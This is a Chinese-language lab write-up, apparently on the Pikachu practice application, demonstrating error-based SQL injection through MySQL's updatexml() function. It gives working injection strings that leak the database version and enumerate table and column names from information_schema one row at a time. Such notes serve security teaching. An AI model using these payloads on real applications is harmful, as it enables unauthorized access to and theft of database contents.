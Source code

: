 **select 下的报错演示**

select/insert/update/delete 都可以使用报错来获取信息.

- **UPDATEXML(xml_document,XPathstring,new_value)**

    Updatexml() 函数作用:改变(查找并替换)XML文档中符合条件的节点的值.
    - 第一个参数:fiedname是String格式,为表中的字段名.
    - 第二个参数:XPathstring(Xpath格式的字符串).
    - 第三个参数:new_value,String格式,替换查找到的符合条件的 X

改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为: `a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#`

其中的 concat() 函数是将其连成一个字符串,因此不会符合 XPATH_string 的格式,从而出现格式错误,爆出 `ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'`

获取数据库表名,输入:`a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#` ,但是反馈回的错误表示只能显示一行,所以采用 limit 来一行一行显示

![](../../../../assets/img/安全/实验/Misc/pikachu/35.png)

输入 `a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)#` 更改limit后面的数字pikachu'limit 0,爆表名

![](../../../../assets/img/安全/实验/Misc/pikachu/36.png)

![](../../../../assets/img/安全/实验/Misc/pikachu/37.png)

![](../../../../assets/img/安全/实验/Misc/pikachu/38.png)

字段名 `a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)#` 更改limit后面的数字,爆表名

![](../../../../assets/img/安全/实验/Misc/pikachu/39.png)

![](../../../../assets/img/安全/实验/Misc/pikachu/40.png)
